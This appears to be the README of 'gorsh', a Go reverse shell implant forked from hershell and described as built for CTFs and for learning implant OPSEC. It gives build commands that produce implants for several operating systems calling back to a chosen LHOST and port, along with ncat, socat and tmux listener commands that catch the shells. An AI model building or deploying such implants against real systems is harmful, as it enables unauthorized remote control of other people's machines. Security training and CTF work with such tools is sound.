 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/1DhRJog.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes

**Require go1.11+**

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).


```bash
go get -u github.com/gobuffalo/packr
go get github.com/audibleblink/gorsh/...
cd $GOPATH/src/github.com/audibleblink/gorsh
```

Makefile assumes this project is being built on Linux.

Be sure to read the Makefile. It gives you a good idea of what's going on.
If enabled in `Makefile`, the `zipcat` cmdlet uses the zStandard compression library which requires
`cgo` compilation.
Leave the defaults in the Makefile unless you're familiar with cross-compilation and cgo and have
the toolchains for it, or read [here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

First, generate your certs and ssh keys for the reverse proxy.

```bash
$ make depends
```

If you want to use `socks` feature, edit `configs/ssh.json`. Create a user on the SSH server
and give it a `/bin/false` shell in `/etc/passwd`

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./docs/TROUBLESHOOTING.md)


#### Catching the shell

The `make listen` target kicks off a tmux session and creates new windows with each new connection.
Feed it a port number as PORT.

```sh
make listen PORT=8080

# once a client connects
tmux attach -t GORSH
```

If your `socat` has been compiled with `READLINE` support, you get command history for free.

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
